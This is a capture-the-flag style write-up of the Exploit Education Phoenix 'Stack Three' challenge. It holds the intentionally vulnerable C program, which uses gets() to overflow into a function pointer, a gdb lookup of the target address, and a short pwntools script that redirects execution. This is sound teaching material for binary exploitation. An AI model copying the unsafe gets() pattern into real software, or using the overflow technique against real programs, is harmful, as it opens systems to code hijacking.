 ```yaml
---
title: "Phoenix - Stack Three"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "The goal of this challenge if to overwrite the value of **fp**  which is a function pointer to point to **complete_level** function..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

The goal of this challenge if to overwrite the value of **fp**  which is a function pointer to point to **complete_level** function.

```
$ gdb -q /opt/phoenix/amd64/stack-three
Reading symbols from /opt/phoenix/amd64/stack-three...(no debugging symbols found)...done.

gef➤  print complete_level 
$1 = {<text variable, no debug info>} 0x40069d <complete_level>
```

Now that we know the address of **complete_level** function is **0x40069d**, we can now build our exploit.

# Solution:

```python
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x40069d)

print(buff)
```

 ```
$ python solve.py | /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
 ```


